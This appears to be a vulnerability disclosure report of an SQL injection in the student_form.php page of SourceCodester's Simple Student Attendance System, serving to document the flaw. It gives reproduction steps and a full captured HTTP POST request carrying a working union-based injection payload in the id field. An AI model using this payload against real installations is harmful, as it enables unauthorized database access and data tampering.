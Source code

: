
**BUG_Author:**

Daydust

**Vendor:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Software:**

[SourceCodester](https://www.sourcecodester.com/php/17018/simple-student-attendance-system-using-php-and-mysql.html)

**Vulnerability File:**

/php-attendance/modals/student_form.php

**Description:**
Simple_Student_Attendance_Syste Exists SQL Injection Vulnerability on student_form.php Page

Attackers can use SQL injection to bypass the authentication and authorization mechanisms of web applications and retrieve the content of the entire database. SQLi can also be used to add, modify, and delete records in a database, thereby affecting data integrity. In appropriate cases, attackers can also use SQLi to execute operating system commands, which can then be used to launch further attacks.

access http://172.21.48.180/php-attendance/?page=student_list Go to the student management page, enable packet capture, and click the edit button of any course to obtain the following data packets

```http
POST /php-attendance/modals/student_form.php HTTP/1.1
Host: 172.21.48.180
Content-Length: 37
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.21.48.180
Referer: http://172.21.48.180/php-attendance/?page=student_list
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=tpml2ej1cjqohlua4pf82lbn2l
Connection: close

id=-1' union select 1,2,user(),4,5,6#
